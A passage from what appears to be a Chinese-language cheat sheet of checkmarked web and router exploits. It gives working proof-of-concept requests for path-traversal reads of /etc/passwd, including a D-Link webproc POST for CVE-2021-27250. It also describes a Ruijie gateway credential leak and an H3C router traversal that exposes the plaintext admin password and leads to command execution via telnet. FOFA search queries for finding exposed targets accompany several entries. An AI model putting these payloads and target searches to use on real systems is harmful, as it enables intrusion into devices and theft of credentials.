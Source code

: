##### download.php 任意文件读取 ✅

poc：

```
/download.php?a=read_txt&file=../../../../etc/passwd
```

#### 锐捷 ISG 视频接入安全网关

##### 账号密码泄露漏洞 ✅

FOFA：

```
title="RG-ISG"
```

F12 查看到账号密码，解密md5 后登陆系统。

### 0x05 路由器

#### D-Link DAP-2020

FOFA：

```
body="DAP-1360" && body="6.05"
```

##### webproc 任意文件读取 CVE-2021-27250 ✅

poc：

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

#### H3C 企业路由器（ER、ERG2、GR系列）

##### 任意用户登录漏洞 ✅

攻击者可通过访问 /userLogin.asp/../actionpolicy_status/../xxxx.cfg 接口，xxxx 为设备型号（比如设备型号为 ER5200G2，即访问 /userLogin.asp/../actionpolicy_status/../ER5200G2.cfg），绕过 COOKIE 验证，进行目录穿越，获取设备的明文配置文件。

配置中有明文的 Web 管理员账号 admin 密码，登录后台可通过开启 telnet 获取命令执行权限。

#### iKuai 路由器

FOFA：

```
title="登录爱快流控路由"
```

##### 后台任意文件读取✅
